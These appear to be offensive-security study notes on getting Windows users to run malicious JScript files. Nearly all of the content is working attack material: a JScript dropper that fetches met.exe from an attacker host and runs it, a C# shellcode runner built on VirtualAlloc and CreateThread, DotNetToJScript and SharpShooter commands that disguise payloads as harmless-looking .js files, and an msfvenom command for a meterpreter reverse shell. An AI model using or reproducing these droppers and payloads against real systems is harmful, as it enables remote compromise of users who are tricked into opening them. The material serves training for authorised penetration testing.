 ### WScript

Default apps in Windows are worth being aware of. The default app for files with a `.ps1` extension is notepad. Therefore even if we successfully socially engineer a user into clicking on a malicious `.ps1`, it will not be executed, and will instead just be opened for editing. By contrast, `.js` files default to the Windows-Based Script Host, aka WScript. When executing `.js` files with `cscript` or `wscript` then the runtime in use is the JScript engine, a hilarious old and deprecated piece of shit. `JScript` provides many wonderful features for the attacker, for instance, direct interaction with ActiveX:

```javascript
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Leveraging more advanced undocumented functionality of `JScript` to make HTTP requests we can implement a full dropper, requiring only a double-click on a `.js` file from a user. `met.exe` is assumed to be our prepped staged meterpreter payload, see `notes/shells.md`:

```javascript
var url = "http://192.168.x.x/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

This approach is simple, however lacking in subtlety, since it involves writing a file to the host. Staying on theme, we have an alternative way of keeping it all in memory. `JScript` alone lacks the functionality to run our staged payload in memory, however it _can_ deserialise and invoke a C\# DLL that has been base64 encoded and copied into the `JScript` file. The hard work here has been done for us by James Forshaw with `DotNetToJscript`. [The binary can be found here](https://github.com/tyranid/DotNetToJScript), when fed a `.dll` it will serialise and encode it as base64, embed the base64 as a string and then write a `Jscript` file around it with the purpose of decoding, deserialising, and finally invoking the binary:
```bash
DotNetToJScript.exe Payload.dll --lang=Jscript --ver=v4 -o not-sus-at-all.js
```
To build `Payload.dll`, take the following C\# and compile it as a DLL (VisualStudio or CLI):
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = new byte[626] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8... // replace me!!
        }

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```

### Sharpshooter

All of the above is kinda the hard way from first principles. Its all repeatable, generic and automatable. Introducing `Sharpshooter`! To install:
```bash
cd /opt/
sudo git clone https://github.com/mdsecactivebreach/SharpShooter.git
cd SharpShooter/
sudo apt install python-pip
sudo pip install -r requirements.txt
```
Generate meterpreter payload:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 -f raw -o /var/www/html/shell.txt
```
Convert it to a `.js` payload with `Sharpshooter`:
```bash
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

TODO: Create the staged version of this payload leveraging HTML smuggling. One for when we come to use this in labs